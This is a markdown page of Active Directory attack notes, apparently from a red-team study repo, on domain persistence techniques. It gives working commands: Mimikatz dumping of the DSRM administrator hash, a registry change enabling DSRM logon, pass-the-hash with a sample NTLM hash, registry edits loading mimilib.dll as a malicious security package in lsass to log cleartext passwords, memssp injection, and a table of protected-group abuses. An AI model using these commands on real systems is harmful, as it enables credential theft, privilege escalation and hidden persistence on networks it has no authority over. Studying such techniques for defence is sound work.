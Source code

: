 ### Directory Services Restore Mode(DSRM)

- There is a local administrator on every DC called "Administrator" whose password is the DSRM password. 

Use of mimkatz:

- Dump DSRM password (needs DA privs)
  - `Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <dc>`

- Change the Logon Behavior for the DSRM account before we use the hash
  - `Enter-PSSession -Computername <dc>`
  - `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD` or `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`(if the value is already set)
- Use below command to pass the hash, if you don't know the password
  - `Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<dc> /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'`
  - `ls \\dc\C$`

### Custom Security Support Provider(SSP)

- dll which will be loaded into lsass.exe process, provide ways for applications to obtain authenticated connection. sample SSP packages like NTLM,Kerberos etc.
- possible to load our own malicious SSP into lsass.exe as well, to log local logons, service account and machine account cleartext passwords.
- Mimikatz provides mimilib.dll to use.
  - copy the mimilib.dll to c:/windows/system32 and edit the registry(need to wait for the machine to reboot):
    -  `reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ`
    - `$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' $packages += "mimilib"`  and `Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages`
  - directly inject into lsass.exe
    - `Invoke-Mimikatz -Command '"misc::memssp"'`

### Using ACLs - AdminSDHolder

- Security Descriptor Propagator (SDPROP) is scheduled to run every hour, and overwrites the ACL of the  protected groups and members by the ACL of AdminSDHolder(AdminSDHolder serves as a backup and restore)

- Protected Groups:

  - `Account Operators` `Enterprise Admins` `Backup Operators` `Domain Controllers` `Server Operators` `Domain Controllers` `Print Operators` `Schema Admins` `Domain Admins` `Administrators` `Replicator`

  - Common Abuse:

    | Protected Groups  | How                                                          |
    | ----------------- | ------------------------------------------------------------ |
    | Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups. |
    | Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
    | Server Operators  | Run a command as system (using the disabled Browser service) |
    | Print Operators   | Copy ntds.dit backup, load device drivers.                   |
